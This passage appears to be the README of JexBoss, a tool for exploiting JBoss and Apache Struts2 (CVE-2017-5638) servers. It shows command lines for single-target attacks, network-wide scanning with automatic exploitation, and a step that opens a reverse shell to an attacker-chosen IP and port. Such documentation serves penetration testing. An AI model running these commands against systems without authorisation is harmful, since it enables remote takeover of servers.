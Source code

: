 * Exploiting Apache Struts2 (RCE) with Jexboss (CVE-2017-5638)

[![Alt text](https://img.youtube.com/vi/PSRsVcfmRSg/0.jpg)](https://www.youtube.com/watch?v=PSRsVcfmRSg)

Screenshots
----

* Simple usage examples:
```
$ python jexboss.py
```
![alt tag](https://github.com/joaomatosf/jexboss/raw/master/screenshots/simple_usage_help.png)

* Example of standalone mode against JBoss:
```
$ python jexboss.py -u http://192.168.0.26:8080
```
![alt tag](https://github.com/joaomatosf/jexboss/raw/master/screenshots/standalone_mode1.png)
![alt tag](https://github.com/joaomatosf/jexboss/raw/master/screenshots/standalone_mode2.png)

* Usage modes:
```
$ python jexboss.py -h
```

* Network scan mode:
```
$ python jexboss.py -mode auto-scan -network 192.168.0.0/24 -ports 8080 -results results.txt
```
![alt tag](https://github.com/joaomatosf/jexboss/raw/master/screenshots/network_scan_mode.png)

* Network scan with auto-exploit mode:
```
$ python jexboss.py -mode auto-scan -A -network 192.168.0.0/24 -ports 8080 -results results.txt
```
![alt tag](https://github.com/joaomatosf/jexboss/raw/master/screenshots/scan_with_auto_exploit_mode.png)

* Results and recommendations:

![alt tag](https://github.com/joaomatosf/jexboss/raw/master/screenshots/results_and_recommendations2.png)


Reverse Shell (meterpreter integration)
---------------------------------------
After you exploit a JBoss server, you can use the own jexboss command shell or perform a reverse connection using the following command:
```
   jexremote=YOUR_IP:YOUR_PORT

   Example:
     Shell>jexremote=192.168.0.10:4444
```

* Example:
![alt tag](https://github.com/joaomatosf/jexboss/raw/master/screenshots/jexbossreverse2.jpg)
